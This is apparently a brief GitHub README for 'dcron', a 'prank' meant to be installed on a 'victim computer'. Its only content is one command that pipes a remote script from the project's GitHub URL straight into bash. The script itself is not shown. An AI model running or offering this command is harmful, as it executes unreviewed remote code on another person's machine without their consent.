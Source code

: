 # dcron
short for Daniel Cron; quick prank you can install on a victim computer

In victim computer, type in the following:
```bash
curl https://raw.githubusercontent.com/TennisGazelle/dcron/master/dcron-start.sh | bash
```